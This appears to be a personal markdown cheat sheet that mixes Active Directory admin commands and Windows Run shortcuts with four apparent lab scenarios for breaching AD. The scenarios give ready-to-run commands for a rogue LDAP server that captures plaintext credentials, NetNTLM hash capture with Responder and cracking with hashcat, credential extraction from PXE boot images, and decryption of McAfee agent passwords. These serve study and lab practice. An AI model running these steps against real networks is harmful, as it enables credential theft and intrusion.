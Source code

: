 # Just Commands

## Force update Group Policies

```powershell
gpupdate /force
```

## Reset password

```powershell
Set-ADAccountPassword <user> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```

## Force a password reset at the next logon

```powershell
Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose
```

## DNS Configuration

```powershell
systemd-resolve --interface <interface> --set-dns <ip-addr> --set-domain <domain>
```

# Scenarios

## Scenario 1 (Hosting a Rogue LDAP Server)

```shell
service slapd stop
```

```shell
nc -lvp 389
```

**If there is objectclass0?supportedCapabilities error:**

```shell
sudo apt update && sudo apt -y install slapd ldap-utils && sudo systemctl enable slapd
```

```shell
sudo dpkg-reconfigure -p low slapd      #?
```

**olcSaslSecProps.ldif:**

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

**patch our LDAP server:**

```shell
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

**verify that our rogue LDAP server's configuration has been applied: (If you are using Kali, you may not receive any output)**

```shell
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

**capture the credentials: (If you receive "This distinguished name contains invalid syntax" error)**

```shell
sudo tcpdump -SX -i breachad tcp port 389
```

## Scenario 2 (Intercepting NetNTLM Challenge; MITM)

[Responder](https://github.com/lgandx/Responder)

```shell
sudo responder -I <interface>
```

[Hashcat](https://hashcat.net/hashcat/)

```shell
hashcat -m 5600 <hash file> <passwd file> --force
```

`-m 5600`: NTLMv2-SSP

## Scenario 3 (MDT & SCCM; PXE)

```shell
cd Documents
mkdir <username>
copy C:\powerpxe <username>\
cd <username>
```

```shell
tftp -i <mdt ip-addr> GET "\Tmp\x64{...}.bcd" conf.bcd
```

```shell
powershell -executionpolicy bypass
```

[powerpxe](https://github.com/wavestone-cdt/powerpxe)

```powershell
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile

>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

```shell
tftp -i <mdt ip-addr> GET "<PXE Boot Image Location>" pxeboot.wim
```

**Recovering Credentials from a PXE Boot Image**

```powershell
Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```

## Scenario 4 (Configuration File Credentials)

```shell
cd C:\ProgramData\McAfee\Agent\DB
dir
```

```shell
scp <username>@<hostname>:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

```shell
sqlitebrowser ma.db
```

[mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)

```shell
python3 mcafee_sitelist_pwd_decrypt.py <auth passwd value>
```

# Win + R shortcuts

## System Configuration

```
msconfig
```

## Computer Management

```
compmgmt.msc
```

## Control Panel

```
control
```

## Task Manager

```
taskmgr
```

## Command Prompt

```
cmd
```

## Local Group Policy Editor

```
gpedit.msc
```

## Group Policy Management Console

```
gpmc.msc
```

## Management Console

```
mmc
```

## Registry Editor

```
regedit
```

## Event Viewer

```
eventvwr
```

## Local Users and Groups

```
lusrmgr.msc
```

## Remote Desktop Connection

```
mstsc
```

## System Information

```
msinfo32
```

## Windows version information

```
winver
```

## Performance Monitor

```
perfmon
```

## Resource Monitor

```
resmon
```